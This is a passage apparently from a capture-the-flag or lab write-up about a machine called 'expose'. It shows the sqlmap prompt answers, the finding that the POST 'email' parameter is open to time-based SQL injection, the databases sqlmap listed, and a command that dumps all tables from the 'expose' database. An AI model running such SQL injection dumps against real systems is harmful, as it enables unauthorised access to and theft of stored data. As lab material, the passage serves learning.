``Answer if prompted for:``
“are you sure that you want to continue with further target testing? [Y/n]” ``Y``

“it looks like the back-end DBMS is ‘MySQL’. Do you want to skip test payloads specific for other DBMSes? [Y/n] ``Y”``

“injection not exploitable with NULL values. Do you want to try with a random integer value for option ‘ — union-char’? [Y/n] ``Y”``

“POST parameter ‘email’ is vulnerable. Do you want to keep testing the others (if any)? [y/N] ``N”``

``Found:`` 
- You will notice that it includes that the email parameter is vulnerable to ``time-based sql injection``
- From the results of the sqlmap, I also noticed it dumped a number of databases:

```r
expose
phpmyadmin
sys
performance_schema
information_schema and mysql
```


### Exploiting the SQL Injection Vulnerability:
Let's focus our attention on the ``expose database``, it might just be the database of the web application.

run: ``sqlmap -r ~/Desktop/request -D expose --tables --dump``
The command above would dump all the tables from the expose database
